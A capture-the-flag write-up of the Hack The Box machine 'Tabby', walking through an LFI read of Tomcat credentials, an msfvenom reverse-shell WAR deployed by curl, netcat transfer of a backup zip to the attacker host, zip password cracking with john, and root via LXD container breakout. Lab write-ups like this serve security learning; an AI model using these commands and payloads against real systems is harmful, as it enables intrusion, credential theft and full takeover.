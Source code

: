 ```yaml
---
title: HTB - Tabby Write-up
author: bigb0ss
date: 2020-11-07 19:36:00 +0800
categories: [Hack The Box, Windows, Easy]
tags: [hackthebox, tabby, lfi, tomcat, zip2john, lxd, container]
image: /assets/img/post/htb/tabby/01_infocard.png
---
```


![image](/assets/img/post/htb/tabby/01_infocard.png)

[ LFI ] [ Tomcat ] [ Zip2John ] [ LXD ] This was an easy difficulty box. It was pretty easy and straight-forward box. Good learning path to:
* LFI File Enumeration
* Tomcat JSP Script Exploit
* Password Protected .zip File Abuse
* LXD Container Breakout


## Initial Recon

### Nmap

Let’s begin with an initial port scan:

```console
$ nmap -Pn --open -p- -sC -sV 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Interesting Ports to Note

* HTTP (80/TCP) - Mega Hosting Web page. 

![image](/assets/img/post/htb/tabby/02_http.png)

* HTTP (8080/TCP) - Apache Tomcat Default Page.

![image](/assets/img/post/htb/tabby/03_8080.png)

> **NOTE**: I did perform a quick default login check against the manager login portal `/manager/html`, but no luck there. 


## Initial Foothold

### LFI (Mega Hosting Website)

By looking at the source code for the web page, we can discover the domain name `megahosting.htb`. Let’s add that into our `/etc/hosts` file. 

![image](/assets/img/post/htb/tabby/04_hosts.png)

And we can see that `http://megahosting.htb/news.php?file=` is vulnerable to LFI, and we can read arbitrary files within the system.

![image](/assets/img/post/htb/tabby/05_lfi.png)

Indeed, the `news.php` was badly written to be vulnerable to LFI. It simply takes the user supplied filename and opens it up. 

![image](/assets/img/post/htb/tabby/06_burp.png)

<b>tomcat</b>
Since we know that there is a Tomcat 9 server running on the port `8080`, we can leverage the LFI to find sensitive data such as `tomcat-users.xml`. The file was located at `/usr/share/tomcat9/etc/tomcat-users.xml` (The file wasn’t in a typical location, so I had to some trial-and-error and bruteforcing.) Within the file, we can see the credentials for the Tomcat Manager console.

```console
User: tomcat
Pass: $3cureP4s5w0rd123!
```

![image](/assets/img/post/htb/tabby/07_burp.png)

Although we have the right creds, when we try to access the `/manager/html` page, we get a 403 Access Denied.

![image](/assets/img/post/htb/tabby/08_accessdeni.png)

However, we can still deploy the `.war` file via `curl`. First, let’s make a reverse shell payload with `msfvenom`:

```console
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f war > bigb0ss.war
```

Then, using `curl`, deploy the payload:

```console
$ curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file bigb0ss.war 'http://10.10.10.194:8080/manager/text/deploy?path=/bigb0ss'

OK - Deployed application at context path [/bigb0ss]
```

Once deployed, by accessing the URL on a browser, we can trigger the payload to call back to our listener.

![image](/assets/img/post/htb/tabby/09_rce.png)


## Privilege Escalation

### tomcat —> ash

Further enumeration found that there is a directory called `/var/www/html/files` which is owned by the user `ash`.

![image](/assets/img/post/htb/tabby/10_ash.png)

Within the directory, there is an interesting `.zip` file.

![image](/assets/img/post/htb/tabby/11_ash.png)

And using the following `netcat` commands, we can download the `.zip` file to our Kali box:

```console
# Kali Box
$ nc -lvnp 80 > backup.zip

# Tabby Box
$ nc 10.10.14.3 80 < 16162020_backup.zip
```

![image](/assets/img/post/htb/tabby/12_ash.png)

<b>Zip Password Cracking</b>
So, the `.zip` file was protected with a password.

![image](/assets/img/post/htb/tabby/13_ash.png)

We can use `zip2john` and `john` to potentially crack the password. 

```console
# zip2john
$ zip2john backup.zip > bakcup-prep.zip

# John
$ john --wordlist=/usr/share/wordlists/rockyou.txt bakcup-prep.zip
```

And it cracked the password as `admin@it`

![image](/assets/img/post/htb/tabby/14_ash.png)

<b>user.txt</b>

The recovered password was indeed valid to unzip the file; however, there was nothing. Instead, that was a correct password for the `ash` user. We can now login as `ash` and read the `user.txt` flag.

![image](/assets/img/post/htb/tabby/15_ash.png)


### ash —> root (LXD Privilege Escalation)

From the above image, we can see that `ash` is member of the `LXD` group. It is a Linux Daemon (LXD) that is a lightweight container hypervisor. And there is a known privilege escalation path for a local user that is part of the `LXD` group to gain `root` access on the system. More details about the attack can be found [here] (https://www.hackingarticles.in/lxd-privilege-escalation/).

So the attack contains 2 step processes:

On the Kali Box:

```console
$ git clone https://github.com/saghul/lxd-alpine-builder.git
$ cd lxd-alpine-builder
$ sudo bash build-alpine
```

Once it’s built, we will see the `.tar.gz` file.

![image](/assets/img/post/htb/tabby/16.png)

And let’s move the file to the Tabby box:

![image](/assets/img/post/htb/tabby/17.png)

![image](/assets/img/post/htb/tabby/18.png)

On the Tabby Box:

```console
# Initiating the LXD (*Answer things for default setting)
$ lxd init

# Import Image
$ lxc image import ./alpine-v3.12-x86_64-20201030_0034.tar.gz --alias bigb0ss

$ lxc image list
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| bigb0ss | c57d8b79d13e | no     | alpine v3.12 (20201030_00:34) | x86_64       | CONTAINER | 3.07MB | Oct 30, 2020 at 4:58am (UTC) |
+---------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+

$ lxc init bigb0ss priv -c security.privileged=true
$ lxc config device add priv mydevice disk source=/ path=/mnt/root recursive=true
$ lxc start priv
```

Once we started the `priv`, then, we can run the following command to escalate our privilege to `root` and read the `root.txt` flag.

```console
$ lxc exec priv /bin/sh

~ # ^[[51;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[51;5Rcat /mnt/root/root/root.txt
cat /mnt/root/root/root.txt
b0d<REDACTED>d7c
```

Thanks for reading! 
